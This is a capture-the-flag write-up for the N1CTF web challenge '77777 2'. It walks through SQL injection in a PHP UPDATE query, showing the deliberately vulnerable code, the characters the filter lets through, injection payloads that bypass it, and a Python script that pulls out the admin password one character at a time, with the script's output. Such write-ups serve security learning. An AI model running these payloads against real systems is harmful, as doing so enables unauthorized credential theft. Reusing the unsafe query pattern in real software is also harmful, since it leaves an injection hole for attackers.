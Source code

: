 ## 77777 2 (Web, 208pt)

> Contestants won't influence each other while solving the challenge.
> 
> http://47.52.137.90:20000

The task was quite similar to [77777](../77777-104/README.md) with some small differences.

The About tab has changed a bit.

```
U can update my points in Profile.

and And the flag is `admin's pw`:)
```

The `update_point()` function remains exactly the same but we guess that the `waf()` function is less permissive this time.

```php
function update_point($p, $points){
    global $link;
    $q = sprintf("UPDATE users SET points=%d%s, $p, waf($points)");
    if(!$query = mysqli_query($link, $q)) return FALSE;
    return TRUE;
}
if(!update_point($_POST['flag'], $_POST['hi']))
    echo 'sorry';
```

Fuzzing the `waf()` for character limitations, we see that only the following characters are allowed:

```
[+]  0, 1, 6, 7, 8
[+]  a-z (not 'j')
[+]  A-Z (not 'J')
[+]  " # $ ' ( ) * + , - . : ; > ? @ [ \ ] _ { | }
[+]  \s
```

Some MySQL functions have also been restricted. What took more time in this challenge, was to realize that the column name that we had to extract was `pw` and not `password` as before (see About tab). After realing this, we issued the following request to determine password length.

```
POST / HTTP/1.1
Host: 47.75.14.48
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Connection: close

flag=1&hi=*length( pw )
```

The `waf()` function did not allow the `pw` keyword to be prefixed or followed by any characters apart from whitespaces. So, we put spaces before and after, to bypass it.

Knowing the length and having bypassed the `pw` filtering, we can retrieve full password using a payload such as:

```
flag=1&hi=*convert(hex(substr( pw ,BINARY_INDEX,1)),signed)
```

The solution is automated in the [solve.py](solve.py) script.

```python
import re
import requests

_target = 'http://47.52.137.90:20000/'

def extract_points(html):
    return re.search(r'<grey>My Points</grey> \| ([0-9]+)<br/>', html).group(1).strip()

def get_pw_len():
    d = {'flag': '1', 'hi': '*length( pw )'}
    resp = requests.post(_target, data=d)
    return int(extract_points(resp.text))

flag = ''
for i in range(1,get_pw_len()+1):
    d = {'flag': '1', 'hi': '*convert(hex(substr( pw ,0b{0:b},1)),signed)'.format(i)}
    resp = requests.post(_target, data=d)
    flag += chr(int(extract_points(resp.text), 16))
    print flag

print '[+] flag: N1CTF{{{}}}'.format(flag)
```

```
❯❯❯ python solve.py
h
ha
hah
haha
hahah
hahah7
hahah77
hahah777
hahah777a
hahah777a7
hahah777a7a
hahah777a7ah
hahah777a7aha
hahah777a7aha7
hahah777a7aha77
hahah777a7aha777
hahah777a7aha7777
hahah777a7aha77777
hahah777a7aha77777a
hahah777a7aha77777aa
hahah777a7aha77777aaa
hahah777a7aha77777aaaa
[+] flag: N1CTF{hahah777a7aha77777aaaa}
```

